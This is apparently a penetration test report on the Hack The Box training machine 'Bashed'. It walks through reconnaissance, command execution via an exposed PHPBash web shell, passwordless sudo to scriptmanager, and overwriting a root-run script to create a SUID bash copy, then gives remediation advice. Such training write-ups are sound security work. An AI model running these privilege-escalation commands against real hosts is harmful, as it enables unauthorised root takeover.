





# Bashed Penetration Test Report

**Prepared by:** Alexandru Gabriel Dan  
**Assessment Date:** 5 September 2026  
**Assessment Type:** Black-box penetration test  
**Environment:** Authorized Hack The Box retired machine  
**Target:** bashed.htb  
**IP Address:** 10.129.54.35  

## Executive Summary

The Bashed host was fully compromised during the assessment.

Initial access was obtained through a PHP web shell that had been left accessible inside a public development directory. The shell allowed operating system commands to be executed without authentication under the `www-data` account.

Local enumeration showed that `www-data` could execute arbitrary commands as the `scriptmanager` user without providing a password. After obtaining access as `scriptmanager`, further enumeration identified a writable Python script under `/scripts` that was being executed with root privileges.

Because the script could be modified by `scriptmanager`, attacker-controlled commands could be introduced and executed as root. This resulted in full administrative control of the host.

The compromise did not rely on a complex software exploit. Instead, several configuration weaknesses were chained together to move from unauthenticated web access to complete root compromise.

## Assessment Scope

The assessment was performed against a single Linux host in an authorized training environment.

| Item | Details |
| --- | --- |
| Target | bashed.htb |
| IP Address | 10.129.54.35 |
| Assessment Type | External black-box |
| Operating System | Linux |
| Objective | Identify exploitable weaknesses and determine whether root access could be obtained |

Testing included network reconnaissance, web enumeration, exploitation, local enumeration and privilege escalation.

## Findings Overview

| ID | Finding | Severity |
| --- | --- | --- |
| BAS-01 | Exposed PHPBash Web Shell | Critical |
| BAS-02 | Unrestricted Passwordless Sudo Access to `scriptmanager` | High |
| BAS-03 | Writable Script Executed with Root Privileges | Critical |

## Compromise Walkthrough

### Reconnaissance

Initial network reconnaissance was performed to identify exposed services on the target.

```bash
nmap -sS -sC -sV -O -Pn -p1-10000 10.129.54.35
```

The scan identified a single accessible TCP service:

```text
80/tcp open  http  Apache httpd 2.4.18 ((Ubuntu))
```

With HTTP as the only exposed service, the assessment continued with web enumeration.

Directory enumeration was performed using Gobuster:

```bash
gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirb/common.txt
```

Several accessible directories were identified, including:

```text
/dev
/uploads
/php
```

The `/dev` directory was particularly relevant because the main website contained a post about a tool named `phpbash` and stated that it had been developed on the same server.

Investigation of the `/dev` directory revealed two PHPBash files:

```text
phpbash.php
phpbash.min.php
```

The exposed `phpbash.php` application was accessible directly through the browser.



*Figure 1 – The target website referenced PHPBash and stated that it had been developed on the server.*

### Initial Access

The PHPBash interface provided operating system command execution without requiring authentication.

Execution was confirmed using:

```bash
whoami
```

The server returned:

```text
www-data
```



*Figure 2 – The exposed PHPBash interface allowed unauthenticated command execution as the `www-data` service account.*


Additional enumeration confirmed that commands were being executed in the context of the Apache web service account.

```bash
id
```

Output:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This provided the initial foothold on the system.

Local enumeration identified two user accounts of interest:

```text
arrexel
scriptmanager

```



*Figure 3 – Local enumeration from the compromised `www-data` account identified additional users and accessible system resources.*


The `www-data` account was also able to access the home directory of `arrexel`, confirming that the initial compromise provided meaningful access to the underlying operating system.

### Privilege Escalation to scriptmanager

The sudo permissions available to `www-data` were reviewed:

```bash
sudo -l
```

The following rule was identified:

```text
User www-data may run the following commands on bashed:

(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This configuration allowed the compromised web service account to execute arbitrary commands as `scriptmanager` without providing a password.

Execution under the `scriptmanager` account was confirmed with:

```bash
sudo -u scriptmanager whoami
```

Output:

```text
scriptmanager
```

The account context was further confirmed with:

```bash
sudo -u scriptmanager id
```

Output:

```text
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

A reverse shell was then established as `scriptmanager` to provide a more stable interactive session for further local enumeration.

### Root Privilege Escalation

After obtaining access as `scriptmanager`, the `/scripts` directory became accessible.




*Figure 4 – Passwordless sudo access to `scriptmanager` enabled access to the `/scripts` directory, where a writable Python script was associated with root-owned output.*


Directory contents showed:

```text
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 2017 test.py
-rw-r--r-- 1 root          root          12 Sep  5 06:24 test.txt
```

The contents of `test.py` were reviewed:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The script was owned and writable by `scriptmanager`, while the output file `test.txt` was owned by root.

The root ownership of `test.txt`, together with repeated modification of the file, showed that `test.py` was being executed in a privileged root context.

This created a direct privilege escalation path because `scriptmanager` could modify code that would later execute as root.

Before modifying the script, a backup was created:

```bash
cp /scripts/test.py /tmp/test.py.bak
```

The script was then changed to create a SUID-enabled copy of `/bin/bash`:

```python
import os
os.system("cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash")
```

After the privileged task executed, the new binary was inspected:

```bash
ls -l /tmp/rootbash
```

The resulting file was owned by root and had the SUID permission set:

```text
-rwsr-xr-x 1 root root ... /tmp/rootbash
```

The binary was then executed while preserving the effective user ID:

```bash
/tmp/rootbash -p
```

Root-level access was successfully obtained.



*Figure 5 – The modified root-executed script created a SUID Bash binary, resulting in effective root access.*

Access to `/root` confirmed complete compromise of the target host.

## Technical Findings

### BAS-01 — Exposed PHPBash Web Shell

**Severity:** Critical  
**Affected Component:** `/dev/phpbash.php`

#### Description

A PHP command shell was exposed through a publicly accessible development directory.

The application required no authentication and provided direct operating system command execution through the web browser.

The presence of the development tool was also disclosed by the public website, which referenced PHPBash and stated that it had been developed on the target server.

An attacker able to reach the web application could therefore discover the development directory and execute commands on the underlying operating system.

#### Evidence

The `/dev` directory was discovered during web enumeration and contained the PHPBash application.

Command execution through the exposed interface returned:

```text
www-data
```

confirming unauthenticated execution in the context of the Apache service account.

#### Impact

An unauthenticated remote attacker could obtain command execution on the server and gain an initial foothold.

Although the initial execution context was limited to `www-data`, access to the operating system enabled local enumeration and provided the starting point for subsequent privilege escalation.

#### Recommendation

Remove development utilities and web shells from web-accessible directories.

Development resources should not be deployed to production-facing systems. Where development interfaces are required, access should be restricted through authentication, network-level controls and appropriate environment separation.

The web root should also be reviewed for other development or diagnostic files that may expose unnecessary functionality.

### BAS-02 — Unrestricted Passwordless Sudo Access

**Severity:** High  
**Affected Account:** `www-data`

#### Description

The compromised `www-data` account was allowed to execute arbitrary commands as `scriptmanager` without providing a password.

The following sudo rule was identified:

```text
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This configuration created a direct privilege transition from the web service account to another local user.

Because `ALL` was permitted, there was no restriction on which commands could be executed in the `scriptmanager` context.

#### Evidence

Running:

```bash
sudo -l
```

as `www-data` revealed unrestricted passwordless access to the `scriptmanager` account.

Execution was confirmed using:

```bash
sudo -u scriptmanager whoami
```

which returned:

```text
scriptmanager
```

#### Impact

Any attacker who obtained command execution through the web application could immediately execute arbitrary commands as `scriptmanager`.

This expanded the attacker's access to local files and directories that were not accessible to the original web service account and enabled the next stage of privilege escalation.

#### Recommendation

Remove unrestricted `NOPASSWD: ALL` sudo permissions.

If the web service genuinely requires execution under another user context, permissions should be limited to the specific commands required for application functionality.

Sudo rules should be reviewed regularly and configured according to the principle of least privilege.

### BAS-03 — Writable Script Executed with Root Privileges

**Severity:** Critical  
**Affected File:** `/scripts/test.py`

#### Description

The `scriptmanager` account had write access to a Python script that was executed in a root security context.

The script:

```text
/scripts/test.py
```

was owned by `scriptmanager`, while the file generated by the script was owned by root.

This demonstrated that a lower-privileged user controlled the contents of code executed with administrative privileges.

An attacker with access to `scriptmanager` could therefore replace or modify the script and cause arbitrary commands to execute as root.

#### Evidence

File permissions showed:

```text
-rw-r--r-- 1 scriptmanager scriptmanager ... test.py
-rw-r--r-- 1 root          root          ... test.txt
```

The script generated the contents of `test.txt`, and the resulting file was created or updated under root ownership.

The script was modified to create a SUID-enabled copy of `/bin/bash`.

Following execution, the resulting binary was:

```text
-rwsr-xr-x 1 root root ... /tmp/rootbash
```

Running:

```bash
/tmp/rootbash -p
```

provided an effective root shell.

#### Impact

An attacker who gained access to the `scriptmanager` account could execute arbitrary commands as root.

Successful exploitation resulted in complete compromise of the operating system, including access to protected files, system configuration and any credentials stored on the host.

#### Recommendation

All scripts executed with root privileges should be owned by root and must not be writable by lower-privileged accounts.

The `/scripts` directory and any other locations containing privileged automation should be reviewed for insecure ownership and permissions.

Scheduled tasks and cron jobs should also be audited regularly to ensure that both the executed files and their parent directories cannot be modified by unprivileged users.

File integrity monitoring should be considered for scripts and binaries executed in privileged contexts.

## Remediation Summary

The following actions should be prioritised:

1. Remove the exposed PHPBash web shell and review the web root for additional development files.
2. Remove unrestricted passwordless sudo permissions assigned to the `www-data` account.
3. Ensure that scripts executed with root privileges are owned and writable only by root.
4. Review scheduled tasks and cron jobs for insecure file ownership or permissions.
5. Separate development resources from production-facing web content.
6. Periodically audit sudo rules and privileged local automation.
7. Review web server permissions to limit the impact of a compromised service account.

## Conclusion

Full root access to the Bashed server was obtained by chaining three security weaknesses.

The initial entry point was an exposed PHP development web shell that allowed unauthenticated command execution as `www-data`.

An overly permissive sudo rule then allowed arbitrary command execution as `scriptmanager`. Access to that account exposed a writable Python script that was executed with root privileges, providing the final path to complete system compromise.

No complex exploit development was required. The compromise was possible because multiple security controls were misconfigured in a way that allowed each level of access to expose the next.

Correcting any one of the three primary findings would have significantly disrupted the attack chain. Addressing all three would prevent the compromise path demonstrated during the assessment.
